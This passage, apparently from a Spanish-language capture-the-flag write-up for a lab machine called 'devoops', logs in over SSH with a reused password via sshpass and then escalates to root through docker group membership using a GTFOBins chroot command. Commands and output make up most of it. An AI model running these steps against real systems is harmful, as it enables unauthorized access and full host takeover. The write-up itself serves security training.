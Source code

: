# Abusing Credentials Reuse -> Foothold
Podemos probar si se reutilizan credenciales con el usuario `john` que hemos detectado antes y vemos que si.
```console
sshpass -p 'Cwz+hJ672CP' ssh john@devoops.bsh
Linux devoops 4.19.0-26-amd64 #1 SMP Debian 4.19.304-1 (2024-01-09) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
john@devoops:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),998(docker)
```

Podemos leer la flag de usuario.
```console
john@devoops:~$ cat user.txt
a8fb899a576d...
```

# Privilege Escalation
## Abusing `docker` group
Vemos que el usuario `john` pertenece al grupo `docker`
```console
john@devoops:/opt/containerd$ id
uid=1000(john) gid=1000(john) groups=1000(john),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),998(docker)
```

Existe una forma de escalar privilegios cuando un usuario pertenece a este grupo. Primero vamos a ver si tenemos imágenes en docker o tengo que descargarme una...
```console
john@devoops:/opt/containerd$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    c059bfaa849c   2 years ago   5.59MB
```

Tenemos una imagen de `alpine`, nos sirve perfectamente para escalar privilegios.

Podemos consultar [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell) que también contempla algunas posibilidades teniendo permisos sobre el binario de `docker`

Y vemos el siguiente comando, si lo ejecutamos se ejecutará un contenedor `alpine`.
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Al montar `/` en `/mnt` y usar `chroot`, el contenedor puede interactuar directamente con los archivos del sistema host y ya habríamos escalado privilegios.
```console
john@devoops:/opt/containerd$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# ls -la /root
total 36
drwx------  4 root root 4096 Mar  5  2022 .
drwxr-xr-x 18 root root 4096 May  7 17:34 ..
-rw-------  1 root root 1649 Feb 24  2022 .bash_history
-rw-r--r--  1 root root  597 Feb 24  2022 .bashrc
drwx------  3 root root 4096 Mar  5  2022 .gnupg
drwxr-xr-x  3 root root 4096 Feb 24  2022 .local
-rw-------  1 root root  417 Feb 27  2022 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
```